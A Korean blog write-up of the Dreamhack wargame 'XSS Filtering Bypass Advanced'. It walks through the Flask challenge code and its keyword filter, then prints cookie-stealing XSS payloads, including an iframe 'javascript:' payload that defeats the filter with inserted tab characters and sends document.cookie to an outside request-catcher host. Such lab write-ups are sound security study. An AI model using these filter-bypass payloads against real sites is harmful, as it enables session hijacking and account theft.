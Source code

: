 ```yaml
---
layout : single
title : "[Dreamhack] STAGE2. XSS Filtering Bypass 혼자실습"
categories: web-hacking-advanced
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```


- [x] xss filtering bypass advanced

# Web Hacking [혼자실습] xss filtering bypass advanced

## 웹 구조

1. /flag 에서 공격 스크립트 입력
2. check_xss 함수에서 url 생성 (memo 페이지는 render_template을 사용하기에, vuln으로 접근하도록)
3. read_url 함수에서 url 전달여부 판단
4. /vuln 접근 시 실행되는 vuln 함수에서 xss_filter 진행

### flag

GET 메소드 시, 스크립트를 입력할 수 있는 flag.html로 연결

POST 메소드 시, 입력된 값을 파라미터로 하여, check_xss 함수로 전달 (cookie에 flag 정보가 들어감)

```python
@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'
```

### check_xss 함수

vuln으로 가는 url을 생성하여 read_url 함수로 전달

\* urllib 라이브러리 [추가 정보](https://blog.naver.com/shwotjd14/221676402782)

|종류|설명|
|:---|:---|
|urllib.request|url을 열거나, 요청 전달|
|urllib.error| urllib.request 모듈에서 발생하는 예외 클래스 포함|
|urllib.parse|url 문자열의 구문 분석과 관련된 작업 수행|
|urllib.robotparser|robot.txt 파일을 구문 분석|

urllib.parse.quote() : 아스키코드 형식이 아닌 글자를 URL 인코딩한다

아래 코드에서는, string으로 전달된 param 변수를 urllib.parse.quote() 을 통해 URL 인코딩하여 기존 주소에 붙여 전달한다.

```python
def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)
```

### xss_filter 함수

해당 함수의 반복문을 보면, 필터링 문자열이 제거될 때까지 검사를 진행하지는 않으나, 필터링 문자열이 존재할 경우 "filtered!!!" 를 반환한다. 따라서, 앞선 함께실습에서 진행한 locatioonn 같은, 키워드 안에 키워드를 삽입하는 우회방법은 사용할 수 없다. 


```python
def xss_filter(text):
    _filter = ["script", "on", "javascript"]
    for f in _filter:
        if f in text.lower():
            return "filtered!!!"

    advanced_filter = ["window", "self", "this", "document", "location", "(", ")", "&#"]
    for f in advanced_filter:
        if f in text.lower():
            return "filtered!!!"

    return text
```

**필터링 되는 문자**

|n차 필터링|해당 문자열|
|:---|:---|
|1차|script, on, javascript|
|2차|window, self, this, document, location, (, ), &#|

기본적으로 전달해야하는 스크립트 내용

```javascript
<script>document.location.href = "/memo?memo=" + document.cookie;</script>
```

## 익스플로잇

- 부모의 cookie를 탈취해야함

- 태그는 % 를 사용해 인코딩할 시 태그의 기능을 잃음

- img, iframe 과 같이 js를 실행 가능한 다른 태그를 사용해야함. script 태그 사용 불가


다음과 같이 작성해보았으나 작동 X : data:// url은 origin이 null이므로 sop에 의해 상위 프레임 탐색이 차단되어, 쿠키 탈취가 되지 않음

```html
<iframe srcdoc="data:base64;,PHNjcmlwdD5kb2N1bWVudC5sb2NhdGlvbi5ocmVmID0gIi9tZW1vP21lbW89IiArIGRvY3VtZW50LmNvb2tpZTs8L3NjcmlwdD4="></iframe>
```

check_xss로 전달 -> url 형태로 인코딩하여 read_url 전달 -> 필터링 진행(소문자로 바꾸어서)

아래 코드를 전달해야하는데 어떻게 필터링을 해야할까

```html
<iframe src="javascript:location.href='https://pgzkthr.request.dreamhack.games/memo?memo='+document.cookie">
```

인코딩을 진행하면 아래와 같이 나옴 -> 일단 javascript, location, document에 대한 필터링 필요

```
%3ciframe+src%3d%22javascript%3alocation.href%3d%27https%3a%2f%2fpgzkthr.request.dreamhack.games%2fmemo%3fmemo%3d%27%2bdocument.cookie%22%3e
```


인코딩 했을 때 값이 나와야하므로 아래 코드를 디코딩하여 전달

```html
<iframe src="javascrip%09t:locatio%09n.href=%27https://pgzkthr.request.dreamhack.games/memo?memo=%27%2bdocumen%09t.cookie">
```

<img src="/images/wargame/24.png">

## 문제

과정에 상세히 기재되지는 않았지만 정말 모든 필터링을 다 시도해봤는데 인코딩되었을 때 필터링 형태가 반환되어야한다는 것을 생각하지 못함. 내가 넣은 아스키, 또는 유니코드 필터링들을 미리 디코딩해서 넣고, 인코딩 시 해당 형태가 반환되도록 하여 그 후 디코딩에서 해석되도록 만들었어야 했다. 이 방법을 미리 생각했다면 기존에 시도했던 많은 형태들도 작동됐을 것 같다는 생각이 들어 아쉬움이 남는다. 해당 문자들을 디코딩하여 넣어보긴 했으나, 디코더를 사용한 것이 아니라 수기로 디코딩을 진행했었는데 무언가 빠졌다거나 하는 문제가 발생했던 것 같다

**결론 : 진작에 디코더 쓸 걸**
